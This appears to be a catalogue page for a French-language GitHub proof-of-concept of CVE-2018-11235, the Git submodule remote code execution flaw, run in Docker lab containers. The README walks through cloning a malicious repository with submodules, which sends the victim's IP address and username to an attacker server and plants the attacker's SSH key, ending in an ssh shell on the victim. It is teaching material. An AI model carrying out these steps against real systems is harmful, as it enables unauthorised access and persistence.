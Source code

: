 # CVE-2018-11235

Proof of Concept - RCE Exploitation : Git submodules' names vulnerability  - Ensimag November 2018

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ygouzerh](https://github.com/ygouzerh) |
| Url      | [https://github.com/ygouzerh/CVE-2018-11235](https://github.com/ygouzerh/CVE-2018-11235)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2018-11235* francais* git* remote-code-execution* security-vulnerability

</details>

## Readme

# CVE-2018-11235

## Getting started

Pour build les conteneurs dockers, utilisez :

```sh
make docker
```

(Les commandes make suivantes sont à lancer en parallèle sur différents terminaux depuis votre machine)

Pour démarrer le conteneur du serveur attaquant, utilisez :

``` sh
make run_server
```

pour démarrer le conteneur représentant la victime, utilisez :

``` sh
make run_client
```
Le conteneur va lancer le script client.py. Le script va transmettre son adresse Ip et son nom de utilisateur au pirate.

Suivez les instructions de la console des clients pour cloner le dépôt git malveillant.

``` sh
git clone --recurse-submodules root@server:home/poc/malicious_repo client_pwned
```

Vous constaterez que l'adresse IP et le nom d'utilisateur de la victime sont transmis au serveur.

Après le clone, vérifiez que la clé publique des attaquants est bien ajoutée aux authorized_keys du client.


Ensuite, vous pouvez ouvrir un shell sur le client depuis le serveur, grâce à la commande suivante (à executer sur votre machine):

```sh
make server_bash
```

`ssh <transmitted_username>@<transmitted_host>`

## Questions

Si vous avez quelques problèmes que ce soit pour executer ce Proof of Concept, veuillez créer
une issue sur ce dépôt: https://github.com/ygouzerh/CVE-2018-11235/issues , nous vous répondrons le plus
rapidement possible.




## Get the content

```
git clone https://github.com/ygouzerh/CVE-2018-11235
cd CVE-2018-11235
```

{% embed url="https://github.com/ygouzerh/CVE-2018-11235" %}

<figure><img src="https://avatars.githubusercontent.com/u/33725211?v=4" alt=""><figcaption><p>ygouzerh</p></figcaption></figure>
